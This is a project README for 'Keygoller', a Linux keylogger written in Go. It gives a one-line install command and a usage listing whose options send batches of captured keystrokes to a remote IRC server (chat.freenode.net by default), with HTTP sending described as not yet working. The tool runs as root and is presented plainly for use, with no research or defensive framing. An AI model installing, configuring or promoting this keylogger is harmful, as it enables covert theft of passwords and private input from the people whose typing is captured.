 # Keygoller

> Simple keylogger implementation in Go

## Installation

```sh
go get -u github.com/rotsix/keygoller
```

## Usage

```sh
Usage of keygoller:
  -channel string
    	channel to send strokes to (IRC) (default "#keylolgger")
  -host string
    	host to send strokes to (default "chat.freenode.net")
  -pass string
    	password associated to the user (default "hunter2")
  -port int
    	port to send strokes to (default 6667)
  -protocol string
    	protocol to use to send strokes (default "debug")
  -request string
    	type of request to send (HTTP) (default "post")
  -size int
    	number of strokes to get before sending (default 512)
  -url string
    	url to send strokes to (HTTP) (default "/data")
  -user string
    	user to connect with (default "Guest74629")
```

It only works on Linux for now, and must be run as root.

The logger supports the following protocols:

- debug: print to `stdout`
- IRC: pass the `-host`, `-port`, `-channel` and `-user` options
- HTTP: not yet
